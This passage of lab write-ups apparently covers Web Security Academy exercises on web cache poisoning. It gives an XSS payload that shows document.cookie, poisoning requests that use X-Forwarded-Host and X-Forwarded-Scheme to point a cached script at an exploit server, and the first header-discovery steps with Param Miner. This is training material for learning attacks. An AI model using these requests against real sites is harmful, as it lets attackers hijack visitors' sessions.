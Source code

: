 **Exploit Server ->**

```
File:
	/resources/js/tracking.js
Body:
	<script>alert(document.cookie)</script>
```

**Solution:**

```
GET /resources/js/tracking.js HTTP/1.1
...
X-Forwarded-Host: exploit-ac1d1f7a1f1e66dcc0b693c401c60019.web-security-academy.net
X-Forwarded-Scheme: http

In response:
HTTP/1.1 302 Found
Location: https://exploit-ac1d1f7a1f1e66dcc0b693c401c60019.web-security-academy.net/resources/js/tracking.js
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0
```

### Lab: Targeted web cache poisoning using an unknown header

This lab is vulnerable to web cache poisoning. A user visits the home page roughly once a minute. The user also views any comments you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

```
GET / HTTP/1.1

In the response headers:

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
Cache-Control: max-age=30
Age: 19
X-Cache: hit
Connection: close
Content-Length: 7670
```

Burp Extension -> Param Miner&#x20;

GET / HTTP/1.1 -> Extensions -> Param Miner -> Guess params -> Guess headers
